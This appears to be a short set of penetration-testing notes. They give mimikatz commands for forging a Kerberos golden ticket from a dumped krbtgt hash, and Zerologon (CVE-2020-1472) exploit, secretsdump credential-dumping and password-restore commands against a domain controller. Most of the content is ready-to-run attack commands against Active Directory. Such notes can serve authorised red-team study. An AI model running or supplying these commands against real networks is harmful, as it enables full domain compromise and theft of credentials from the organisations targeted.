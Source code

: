 ### golden ticket

[mimikatz Github link](https://github.com/gentilkiwi/mimikatz)

```
lsadump::lsa /inject /name:krtgt
# save Domain SID 
# save NTLM hash
kerberos::golden /User:Administrator /domain:domain.name /sid:domain_sid /krbtgt:ntlm_hash /id:500 /ptt
misc::cmd
```

### zerologon (CVE-2020-1472)
/very dangerous could destroy domain controller

[dirkjanm CVE-2020-1472 POC Github link](https://github.com/dirkjanm/CVE-2020-1472)

[SecuraBV ZeroLogon Checker Github link](https://github.com/SecuraBV/CVE-2020-1472)

checking if vuln
```
python3 zerologon_check.py domain_controller-DC ip
```

running the exploit
```
python3 cve-2020-1472-exploit.py domain_controller-DC ip
```

check and restore
```
secretsdump.py -just-dc domain/domain_controller-DC\$@ip

secretsdump.py administrator@ip --hashes hash

python3 restorepassword.py domain/domain_controller-DC@domain_controller -target-ip ip -hexpass hexpass
```

